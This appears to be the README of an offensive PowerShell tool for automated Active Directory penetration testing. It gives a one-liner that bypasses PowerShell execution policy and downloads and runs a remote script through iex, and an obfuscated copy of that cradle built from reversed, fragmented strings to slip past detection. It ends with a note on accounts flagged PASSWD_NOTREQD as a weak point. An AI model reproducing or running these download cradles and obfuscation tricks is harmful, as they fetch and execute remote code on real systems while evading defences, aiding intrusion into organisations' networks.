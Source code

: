 # Girism
Guided Infiltration and Reconnaissance Initiative for System Manipulation (GIRISM)

*Automating Penetration testing of Active Directory*

Import-Module .\Girism.ps1
Type Girism and then allow the script to load into the current Powershell session.
Follow the on-screen instructions afterwards.

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Girism/main/Girism.ps1'))

OBF IEX:

" $(SeT-iTEm 'vaRiABlE:OFs'  '') "+ ( [STrINg] [rEGEX]::MatChes( "xEI |)93]rahC[,'1LI' eCAlpEr-  )')'+')'+'1LI1sp.msiriG'+'/nia'+'m/msi'+'riG/o'+'h'+'oZniMAI/moc.'+'tne'+'tnoc'+'resubu'+'ht'+'ig'+'.wa'+'r//:sp'+'tth1LI'+'(gnirtSdaolnw'+'oD.)tneilCb'+'eW.t'+'e'+'N.met'+'syS '+'t'+'ce'+'jbO-weN(( xei '+';2703 rob'+'- locot'+'orPytiruceS'+'::]rega'+'naM'+'tnioPecivreS.teN.m'+'et'+'syS[ = l'+'o'+'cotorPytiruce'+'S:'+':]rega'+'naM'+'tnioPe'+'civr'+'eS.teN.'+'me'+'tsy'+'S[ ;'+'e'+'croF-'+' ss'+'ecorP '+'ep'+'ocS- s'+'sapyB ycilo'+'P'+'noituc'+'exE-teS'(( " , '.' ,'R'+'Ig'+'httoL'+'eFt') | %{$_ })+"$( SET-ITeM 'variAble:OFs'  ' ' )" | & ( $enV:COmsPEc[4,15,25]-JoIN'')

##Empty password in Active Directory: I found out that the reason for an empty password in Active Directory can be found here – in the UserAccountControl Attribute.
In this attribute the flag “PASSWD_NOTREQD” can be set. If this flag is set, a domain administrator can issue an empty password, evading the password policy.
For accounts with the flag “PASSWD_NOTREQD” set, the attribute “UserAccountControl” has the value 544.


